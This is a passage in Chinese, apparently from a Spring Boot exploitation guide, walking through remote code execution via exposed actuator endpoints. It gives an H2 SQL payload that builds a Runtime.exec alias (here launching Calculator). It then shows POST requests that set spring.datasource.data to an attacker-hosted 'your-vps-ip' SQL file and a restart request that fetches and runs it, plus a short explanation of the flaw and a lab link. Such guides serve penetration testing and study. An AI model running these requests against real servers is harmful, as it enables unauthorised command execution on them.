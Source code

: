 在根目录放置以任意名字的文件，内容为需要执行的 h2 sql 代码，比如：

> ⚠️ 下面payload 中的 'T5' 方法只能 restart 执行一次；后面 restart 需要更换新的方法名称 (如 T6) 和设置新的 sql URL 地址，然后才能被 restart 重新使用，否则第二次 restart 重启应用时会导致程序异常退出

```
CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('/bin/bash','-c','open -a Calculator');
```

**步骤二：设置 spring.datasource.data 属性**

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.data=http://your-vps-ip/example.sql
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.datasource.data","value":"http://your-vps-ip/example.sql"}
```

**步骤三：重启应用**

spring 1.x

```
POST /restart
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```
POST /actuator/restart
Content-Type: application/json
```

**漏洞原理：**

1. 目标机器可以通过 spring.datasource.data 属性来设置 jdbc DML sql 文件的 URL 地址
2. restart 重启应用后，程序会请求设置的 URL 地址
3. `spring-boot-autoconfigure` 组件中的 `org.springframework.boot.autoconfigure.jdbc.DataSourceInitializer.java` 文件代码逻辑中会使用 `runScripts` 方法执行请求 URL 内容中的 h2 database sql 代码，造成 RCE 漏洞

**漏洞环境：**

[repository/springboot-restart-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-restart-rce)

正常访问：

```
http://127.0.0.1:9098/actuator/env
```
